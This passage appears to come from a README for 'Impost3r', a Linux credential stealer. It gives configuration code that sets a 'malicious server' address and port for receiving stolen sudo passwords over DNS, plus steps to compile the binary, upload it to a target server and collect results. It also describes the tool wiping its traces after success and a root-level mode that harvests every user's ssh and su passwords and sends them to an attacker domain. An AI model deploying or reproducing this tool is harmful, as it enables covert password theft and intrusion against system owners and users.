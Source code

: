 ```
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.cache" \\Set the result file location if you want to save the result on the server
```
- Save the source code,and run ```make``` 

- Get the ```.impost3r``` file after compiling.

- Upload(Compile as much as possible on the target server to prevent unexpected errors) ```.impost3r``` file to the target server and put it under the FILENAME you specified.

- The last thing you should do is run a dns server service on your server(REMOTE_ADDRESS)'s port(REMOTE_PORT),and waiting for the bonus.

### Demo

<img src="https://user-images.githubusercontent.com/45198234/83479347-e88b1700-a4ca-11ea-8230-8ec7e9a66845.gif" width="1200" >

### Tips

- When Impost3r steal the sudo password successfully,it will automatically clean the traces it make on the target server.

- Impost3r can automatically determine whether the password entered by the user is the correct password, and will not clean itself and erase the trace until the user enters the correct password.

- Please use command ```sudo -v``` to check if the current user can use sudo command(if user is in the sudoers file) ,if user has no permission to use sudo command, Please do not use Impost3r!

## Steal ssh/su password

Stealing the ssh/su password is different from the sudo password stealing method above. You need root privilege.And this method can steal all user's password

The following uses Ubuntu as an example, Centos is similar,but the file locations mentioned may be slightly different

- First, assume that the attacker controls a server,and gets the root privilege

- Then edit the ```/ssh_su/main.h``` source code file of Impost3r

```
/*
    Custom setting
*/
# define SSH_OR_BOTH 0 \\Set stealing mode, 0 means only steal ssh password, 1 means steal ssh and su password, the default is 0 (the difference will be mentioned later)
# define SAVE_OR_SEND 0 \\Set the method you want to apply when Impost3r get the password,(send to your server=0,save the result on the current server=1,default is send)

/*
    Send to server
*/
# define YOUR_DOMAIN ".com" \\Note that if you don’t want to buy a domain name to receive messages sent back by Impost3r and the target server implanted in Impost3r does not prohibit direct udp connections to port 53 of the dns server you control, then please use the default value for the domain name here
```